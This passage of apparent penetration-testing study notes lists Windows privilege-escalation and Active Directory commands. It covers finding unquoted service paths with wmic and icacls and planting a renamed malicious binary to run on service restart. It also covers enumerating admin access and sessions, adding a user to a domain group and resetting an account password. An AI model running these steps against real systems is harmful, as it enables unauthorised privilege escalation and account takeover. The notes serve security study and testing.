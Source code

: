 - Using CMD: `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
- Test starting/stopping service: `start-service servicename` & `stop-service servicename`
- Test parts of the path to find write-permissions `(RX,W)` for the current user:
	- eg. `icacls "C:\"` then `icacls "C:\Program Files` then `C:\Program Files\Enterprise Apps`
	- If the `Enterprise Apps` folder is writeable, then rename `adduser.exe` to the partial path; eg. `Current.exe` for `C:\Program Files\Enterprise Apps\Current.exe`
	- Start or restart the service to execute the malicious binary in the path
### Privileges
- Check if user has admin access: `Find-LocalAdminAccess` (can take several mins)
- Check system for logged in users: `Get-NetSession -ComputerName files04 -Verbose`
	- Windows has updated since `v10.0 (16299)` (aka build 1709) to block `Net-Session`
	Alternatively:
	- Upload/Use Psloggedon.exe: `.\PsLoggedon.exe \\host04`
- Add a user to a group: `net group "Management Department" stephanie /add /domain
	- And remove: `net group "Management Department" stephanie /del /domain`
- Change the password of a user you control: `Set-ADAccountPassword -Identity "robert" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)`

